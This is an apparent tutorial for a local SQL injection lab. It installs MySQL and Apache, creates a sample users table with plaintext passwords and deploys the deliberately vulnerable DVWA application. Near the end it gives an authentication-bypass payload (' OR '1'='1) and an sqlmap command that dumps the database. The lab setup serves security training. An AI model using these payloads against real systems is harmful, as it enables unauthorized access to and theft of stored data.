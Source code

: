 Detailed Example Steps:
1. Set Up Environment

Install MySQL:

bash

sudo apt-get update
sudo apt-get install mysql-server
sudo mysql_secure_installation
sudo systemctl start mysql

Create Database and Tables:

sql

CREATE DATABASE banking_db;
USE banking_db;

CREATE TABLE users (
    id INT AUTO_INCREMENT PRIMARY KEY,
    username VARCHAR(50) NOT NULL,
    password VARCHAR(50) NOT NULL
);

INSERT INTO users (username, password) VALUES ('admin', 'admin123'), ('user1', 'userpass1');

Deploy DVWA:

bash

git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
cd /var/www/html/dvwa/config
cp config.inc.php.dist config.inc.php
nano config.inc.php  # Update database credentials

Configure Apache:

bash

sudo apt-get install apache2
sudo systemctl start apache2

Access DVWA:

    Open a browser and go to http://localhost/dvwa.

2. Identify Vulnerabilities

Manual Testing:

    Login Form:

    sql

    ' OR '1'='1

Automated Testing with SQLmap:

bash

sqlmap -u "http://localhost/dvwa/login.php?username=admin&password=admin" --batch --dump
